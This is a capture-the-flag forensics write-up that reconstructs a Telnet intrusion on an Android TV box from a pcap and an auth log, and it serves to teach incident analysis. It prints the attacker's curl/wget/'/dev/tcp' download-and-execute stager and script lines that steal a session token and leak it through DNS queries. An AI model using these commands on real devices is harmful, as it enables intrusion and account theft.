






# SessionJack — Writeup

**Category:** Forensics  
**Difficulty:** Easy  
**Author:** Gib  


---

## Description

> A user reported unauthorized activity on their streaming account. The device in question shows no signs of tampering, no suspicious files, nothing out of the ordinary, yet someone clearly got in.
> You have been handed a network capture and an authentication log pulled from the device. Your job is to reconstruct the attack from start to finish and recover what was taken.

**Artifacts provided:**
- `SessionJack.pcap`
- `auth.log`

---

## Understanding the Challenge

Before diving into the questions it helps to understand what kind of device we are dealing with and why it was targeted.

The compromised device is a 'cheap' **Android TV box**, these devices run a stripped down Linux-based OS with minimal tools installed. What makes them attractive to attackers is that manufacturers often ship them with **Telnet open by default** on port xx, left over from factory debugging, with default credentials that nobody ever changes.

The attacker's goal here was to steal a "Netflix Session Token" and leave minimal traces behind 


---

## Solution

### Opening the artifacts

Load `SessionJack.pcap` in Wireshark and open `auth.log`, the challenge requires cross-referencing both files to understand the full story

---

### Q1 — What is the IP address of the attacker?

Start with `auth.log`, scan through it and collect every external IP that appears. You will notice several IPs involved in failed SSH brute force attempts. The key is that none of those IPs appear meaningfully in the pcap.

Open Wireshark and test each suspicious IP, only one has active traffic : a Telnet session and an HTTP exchange. That IP is the attacker.

You can also notice in `auth.log` that the attacker's event is the only one that says `telnetd` instead of `sshd`, and the only one that shows a successful `ROOT LOGIN` which immediately flags suspicious behaviour



> **Answer: `82.115.47.23`**

---

### Q2 — What time did the attacker gain access? (FORMAT: YY-MM-DD HH:MM:SS)

The timestamp is readable directly from the three `auth.log` lines that fire at the moment of the Telnet login:

```
May 10 02:17:41 ott-device-01 telnetd[1337]: connect from 82.115.47.23
May 10 02:17:41 ott-device-01 login[1338]: ROOT LOGIN on '/dev/pts/0' FROM '82.115.47.23'
May 10 02:17:41 ott-device-01 pam_unix(login:session): session opened for user root by LOGIN(uid=0)
```

The log is dated May 10, year 2026.

> **Answer: `26-05-10 02:17:41`**

---

### Q3 — What credentials did the attacker use to log in? (FORMAT: user:password)

Since we know the attacker used "Telnet" protocol to gain root access, we can assume that the port used by default is "23", therefore we can :

Filter in Wireshark: `tcp.port == 23` OR `telnet`



Right-click any packet → Follow → TCP Stream.

Since Telnet has no encryption, everything is in plain text, The credentials are immediately visible 



> **Answer: `root:root`**

---

### Q4 — What was the third and final fallback method used to fetch the script?

Still in the same Telnet TCP stream, scroll past the login exchange. You will see the full stager command the attacker typed into the shell:

```bash
(curl -fsSL http://82.115.47.23/xx.sh 2>/dev/null \
 || wget -qO- http://82.115.47.23/xx.sh 2>/dev/null \
 || (exec 3<>/dev/tcp/82.115.47.23/80 \
 && echo -e 'GET /xx.sh HTTP/1.0\r\nHost: 82.115.47.23\r\n\r\n' >&3 \
 && cat <&3 | tail -n +8)) | bash
```

Three methods are tried in order. curl and wget both fail because they are not installed on the device. The third method uses `/dev/tcp` : a bash built-in pseudo-device and not a real file on the filesystem. When bash sees it, it opens a raw TCP connection to the specified host and port. `exec 3<>` assigns that connection to file descriptor 3, opening it for both reading and writing simultaneously. From this point on, file descriptor 3 is the live link between the victim device and the attacker's server.

`echo -e 'GET /xx.sh HTTP/1.0\r\nHost: 82.115.47.23\r\n\r\n' >&3` : Manually crafts and sends an HTTP GET request through file descriptor 3 into the TCP connection. >&3 means write into file descriptor 3. \r\n are the carriage return and newline characters that HTTP requires between headers. The double \r\n\r\n at the end signals the end of the request headers. This is a complete valid HTTP request written by hand using nothing but echo.

> **Answer: `/dev/tcp`**

---

### Q5 — How many lines were stripped from the server response before execution?

The answer is visible in the stager command from Q4:
```bash
cat <&3 | tail -n +8
```
`tail -n +8` : outputs everything starting from line 9, which means the first 8 lines are skipped (including the blank seperator)

To verify, filter: `ip.addr == 82.115.47.23 && tcp.port == 80` and follow the TCP stream. Count the HTTP response headers before the script body begins, there are exactly 8.



> **Answer: `8`**

---

### Q6 — What is the full path of the file the script targeted?

From the HTTP TCP stream in Q5, read the script body that follows the 8 header lines. The first line of the script reveals the target file:

```bash
TOKEN=$(cat /data/app/netflix/session.tok)
```

This is where the Android TV box stores the Netflix session token on its filesystem.


> **Answer: `/data/app/netflix/session.tok`**

---

### Q7 — What technique was used to exfiltrate the stolen data?

Continuing to read the recovered script you find:

```bash
SUBDOMAIN="c${IDX}.${CHUNKS[$i]}.${HOST}.exfil.cld-nx.net"
nslookup $SUBDOMAIN > /dev/null 2>&1
```

`nslookup` makes DNS queries. The subdomain being queried contains chunks of encoded data sent to a domain the attacker controls. This is **DNS exfiltration** : data is encoded into DNS query subdomains and sent out through normal DNS infrastructure, making it blend in with regular network traffic.

You can confirm this in the pcap by filtering: `dns && ip.src == 192.168.1.105`



> **Answer: `DNS exfiltration`**

---

### Q8 — What is the hostname of the compromised device?

Filter: `dns && ip.src == 192.168.1.105`

Examine the DNS query subdomains. Each one follows this structure:
```
c{n}.{chunk}.{hostname}.exfil.cld-nx.net
```

The part between the chunk data and `exfil.cld-nx.net` is static across every single query — it never changes. That is the device hostname, embedded by this line in the script:

```bash
HOST=$(hostname)
```

Read any of the DNS queries and extract that static portion.


> **Answer: `ott-device-01`**

---

### Q9 — How many DNS queries were used to exfiltrate the token?

Still filtered on `dns && ip.src == 192.168.1.105`, count only the queries hitting `exfil.cld-nx.net`. Each one carries one chunk of the encoded token prefixed with a sequence number `c1` through `c6`.

This also matches `CHUNK_SIZE=8` in the script — the encoded token is 44 characters long, split into 8-character chunks gives 6 queries.



> **Answer: `6`**

---

### Q10 — What is the exfiltrated session token?

This is the final step. Use everything recovered so far to reverse the encoding process the script applied.

**Step 1 — Extract and sort the chunks**

Filter `dns && ip.src == 192.168.1.105` and read the subdomain of each `exfil.cld-nx.net` query. Extract the chunk portion and sort by sequence number:

```
c1 → a3o5MjQ0
c2 → LW1hOTJ1
c3 → dS03enF4
c4 → OTEtMmsz
c5 → ZjhhLWtv
c6 → dGZu
```

**Step 2 — Concatenate**
```
a3o5MjQ0LW1hOTJ1dS03enF4OTEtMmszZjhhLWtvdGZu
```

**Step 3 — Base64 decode**

The script encoded with `base64` so decode it:
```bash
echo "a3o5MjQ0LW1hOTJ1dS03enF4OTEtMmszZjhhLWtvdGZu" | base64 -d
# outputs: kz9244-ma92uu-7zqx91-2k3f8a-kotfn
```

**Step 4 — Reverse the string**

The script applied `rev` before encoding so reverse the decoded result:
```bash
echo "kz9244-ma92uu-7zqx91-2k3f8a-kotfn" | rev
# outputs: nftok-a8f3k2-19xqz7-uu29am-4429zk
```

That is the original Netflix session token the attacker stole.


> **Answer: `nftok-a8f3k2-19xqz7-uu29am-4429zk`**

---

## Flag

```
spark{r00t_r00t_w0w_s0_s3cur3}
```

---

## Attack Chain Summary

| 1 | Attacker scans subnet, finds port 23 open on `192.168.1.105` 


| 2 | Logs in via Telnet using default credentials `root:root` 


| 3 | Runs multi-fallback stager — curl and wget fail, `/dev/tcp` succeeds 


| 4 | Victim fetches `xx.sh` from attacker server via raw HTTP over TCP socket 


| 5 | Script executes in memory, reads Netflix session token from filesystem


| 6 | Token is reversed, base64 encoded, split into 6 chunks of 8 characters 


| 7 | Each chunk exfiltrated as a DNS query subdomain to `exfil.cld-nx.net` 


| 8 | Attacker reconstructs token from DNS server logs 

---

